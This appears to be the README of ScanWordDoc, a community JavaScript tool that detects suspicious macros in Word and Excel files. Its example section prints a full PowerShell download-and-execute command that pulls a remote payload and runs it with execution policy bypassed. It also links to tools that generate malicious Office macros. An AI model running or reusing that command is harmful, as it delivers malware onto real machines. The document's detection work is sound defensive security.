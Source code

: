 # ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

scan individual files
```bash
> node scan.js ./tests/benign/nomacros.doc
> node scan.js ./tests/benign/hasmacros.doc
> node scan.js ./tests/malicious/hasmacros.doc
```
or scan directories + subdirectories
```
> node scan.js ./tests/
```


## Supported Files
1. Excel XLS
2. Word DOC

## Example Response
```JSON
{ fileType: 'doc',
  hasMacro: true,
  macroTxt: 'Sub SortText()
    Selecton.h
    End P',
  isValid: false,
  hasContent: true }
```

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```

## References
- https://www.npmjs.com/package/cfb : currently the primary library supporting functions thanks Yaw Agyepong !
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs
